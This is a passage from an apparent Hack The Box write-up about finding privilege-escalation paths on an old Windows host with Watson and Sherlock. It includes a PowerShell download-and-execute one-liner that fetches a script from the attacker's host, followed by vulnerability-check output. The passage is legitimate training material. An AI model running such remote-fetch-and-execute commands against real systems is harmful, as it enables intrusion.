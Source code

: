 ### Enumeration - Watson/Sherlock

One thing I noticed was not in the winPEAS output was [Watson](https://github.com/rasta-mouse/Watson) results. Watson is a quick checker for CVEs this Windows host might be vulnerable to, and in the original HTB days, that was a common escalation technique (in fact, it is the intended path on this host). My best guess as to why it didn’t run is the .NET version required by Watson in winPEAS is 4.5, and this host only has up to 4.0:

```

PS C:\windows\microsoft.net\framework> ls

    Directory: C:\windows\microsoft.net\framework

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         22/8/2013   6:39 ??            v1.0.3705
d----         22/8/2013   6:39 ??            v1.1.4322
d----         22/8/2013   6:39 ??            v2.0.50727
d----         20/3/2021   8:06 ??            v4.0.30319
...[snip]...

```

If I want to run Watson, I think I could get it to work by downloading it and compiling it to match one of the .NET versions on the box, but I wasn’t able to get it working quickly. Instead, because this box is so old, I went to Watson’s predecessor, [Sherlock](https://github.com/rasta-mouse/Sherlock). I showed both Sherlock and Watson in the writeup of [Bounty](/2018/10/27/htb-bounty.html#enumeration) 2.5 years ago.

Sherlock is a PowerShell script. I’ll download a copy, and see that it defines a bunch of functions, but doesn’t call any. I’ll add a line at the end to call `Find-AllVulns`. Then I’ll use a Python HTTP server to host a copy, and execute it the same way I got a shell:

```

PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081                   
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
```